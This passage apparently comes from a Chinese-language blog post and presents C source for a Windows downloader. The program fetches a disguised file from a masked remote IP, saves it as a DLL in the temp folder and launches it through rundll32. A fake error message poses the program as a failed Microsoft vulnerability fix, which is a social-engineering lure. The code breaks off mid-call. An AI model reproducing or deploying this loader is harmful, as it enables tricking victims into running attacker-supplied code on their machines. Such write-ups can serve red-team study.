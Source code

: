 期间涉及到窗口提示优化、程序资源信息优化、权限申请

效果如下：

![2019-05-21-17-46-35](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/c9818645cdfc42f656a8ce59be240ebe.png)

下载器代码：

```c
// Win32Project5.cpp : 定义控制台应用程序的入口点。
//

#include "stdafx.h"
#include <Windows.h>
#include <iostream>
#include <UrlMon.h>
#pragma comment(lib, "urlmon.lib")
using namespace std;


HRESULT DownloadFile(PTCHAR URL, PTCHAR File);

static TCHAR URL[] = TEXT("http://**.**.**.**:8000/fff.jpeg");
static TCHAR SaveFile[MAX_PATH];
static TCHAR FileName[] = TEXT("\\fff.dll");
// 下载文件
HRESULT DownloadFile(PTCHAR URL, PTCHAR File) {
	HRESULT hr = URLDownloadToFile(0, URL, File, 0, NULL);
	return hr;
}

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, PSTR szCmdLine, int iCmdShow)

{
	ZeroMemory(SaveFile, MAX_PATH);
	GetEnvironmentVariable(TEXT("TMP"), SaveFile, MAX_PATH);

	lstrcatW(SaveFile, FileName);
	if (DownloadFile(URL, SaveFile) != S_OK)
	{
		// wprintf(TEXT("Error: %d \n"), GetLastError());
		MessageBox(NULL, TEXT("修复漏洞失败，请检查网络，是否能够连接到微软服务器！"), TEXT("上海xxx"), MB_ICONWARNING | MB_OK);
		return 0;
	}

	lstrcatW(SaveFile, TEXT(",rundll32dllfun"));
	TCHAR opt[MAX_PATH];
	ZeroMemory(opt, MAX_PATH);
	lstrcatW(opt, TEXT(" "));
	lstrcatW(opt, SaveFile);
	PROCESS_INFORMATION pi;
	STARTUPINFO si = { sizeof(si) };
	si.cb = sizeof(si);
	si.wShowWindow = TRUE;
	CreateProcess(
		TEXT("C:\\Windows\\System32\\rundll32.exe"), 
		opt,
		NULL, 
		NULL, 
		FALSE, 
		CREATE_NEW_CONSOLE,
		NULL,
		NULL, 
		&si, 
```